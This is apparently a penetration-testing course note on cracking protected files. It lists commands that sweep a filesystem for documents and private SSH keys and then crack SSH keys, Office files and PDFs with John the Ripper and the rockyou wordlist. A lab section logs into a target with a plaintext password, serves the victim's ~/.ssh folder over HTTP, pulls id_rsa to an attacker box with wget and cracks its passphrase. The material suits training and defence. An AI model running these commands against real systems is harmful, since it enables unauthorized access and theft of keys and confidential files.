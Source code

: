 # Protected Files

Storage of files : symmetric encryption like AES-256
Transmission of files :  asymmetric encryption 

## Hunting for Encoded Files

for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

## Hunting for SSH Keys

grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"

## Encrypted SSH Keys

cat /home/cry0l1t3/.ssh/SSH.private

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED

--> Encrypted

## Cracking SSH Key with John

locate *2john*

/usr/share/john/ssh2john.py

ssh2john.py SSH.private > ssh.hash
cat ssh.hash
john --wordlist=rockyou.txt ssh.hash
john ssh.hash --show

SSH.private:1234
1 password hash cracked, 0 left

## Cracking Documents

### Cracking Microsoft Office Documents

office2john.py Protected.docx > protected-docx.hash
cat protected-docx.hash
john --wordlist=rockyou.txt protected-docx.hash
john protected-docx.hash --show

Protected.docx:1234

### Cracking PDFs

pdf2john.py PDF.pdf > pdf.hash
cat pdf.hash
john --wordlist=rockyou.txt pdf.hash
john pdf.hash --show

PDF.pdf:1234

## LAB

ssh kira@$TARGET
L0vey0u1!

grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"

/home/kira/.ssh/id_rsa:1:-----BEGIN RSA PRIVATE KEY-----

On target :
cd /home/kira/.ssh/
python3 -m http.server

On pwnbox :
wget $TARGET:8000/id_rsa


cat /home/kira/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED

/usr/share/john/ssh2john.py id_rsa > ssh.hash

sed 's/decodestring/decodebytes/' /usr/share/john/ssh2john.py | python3 - id_rsa> ssh.hash

john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
john ssh.hash --show

id_rsa:L0veme

1 password hash cracked, 0 left

